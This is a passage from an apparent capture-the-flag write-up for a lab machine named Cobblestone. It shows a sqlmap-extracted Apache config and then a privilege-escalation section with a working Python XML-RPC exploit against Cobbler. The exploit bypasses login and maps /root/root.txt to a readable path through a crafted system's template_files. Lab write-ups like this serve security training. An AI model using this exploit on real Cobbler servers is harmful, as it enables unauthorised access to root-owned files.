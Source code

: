```bash
└─$ cat /home/kali/.local/share/sqlmap/output/vote.cobblestone.htb/files/_etc_apache2_sites-available_000-default.conf
<VirtualHost *:80>
        RewriteEngine On
        RewriteCond %{HTTP_HOST} !^cobblestone.htb$
        RewriteRule /.* http://cobblestone.htb/ [R]
        ServerName 127.0.0.1
        ProxyPass "/cobbler_api" "http://127.0.0.1:25151/"
        ProxyPassReverse "/cobbler_api" "http://127.0.0.1:25151/"
</VirtualHost>
```

## Privilege Escalation
### Exploiting Cobbler
Search for vulnerabilities and found out this one [Cobbler Multiple Vulnerabilities](https://tnpitsecurity.com/blog/cobbler-multiple-vulnerabilities/) and also [Cobbler XMLRPC API](https://github.com/cobbler/cobbler/issues/2795). <br>
&rarr; Combine these and we got a script to exploit it.

```py
import xmlrpc.client

KERNEL = "/boot/vmlinuz-6.1.0-37-amd64"
INITRD = "/boot/initrd.img-6.1.0-37-amd64"
TARGET = "/root/root.txt"
NAME = "pwnsys"
DEST = "/leak"

srv = xmlrpc.client.ServerProxy("http://127.0.0.1:25151/RPC2", allow_none=True)
tok = srv.login("", -1)

# Create fake distribution
did = srv.new_distro(tok)
srv.modify_distro(did,"name","pwn_distro", tok)
srv.modify_distro(did,"arch","x86_64", tok)
srv.modify_distro(did,"breed","redhat", tok)
srv.modify_distro(did,"kernel", KERNEL, tok)
srv.modify_distro(did,"initrd", INITRD, tok)
srv.save_distro(did, tok)

# Create fake profile
pid = srv.new_profile(tok)
srv.modify_profile(pid,"name","pwn_profile", tok)
srv.modify_profile(pid,"distro","pwn_distro", tok)
srv.save_profile(pid, tok)

# Create system with file mapping
sid = srv.new_system(tok)
srv.modify_system(sid,"name", NAME, tok)
srv.modify_system(sid,"profile","pwn_profile", tok)
srv.modify_system(sid,"template_files", {TARGET: DEST}, tok)
srv.save_system(sid, tok)

# Trigger synchronization
srv.sync(tok)
```
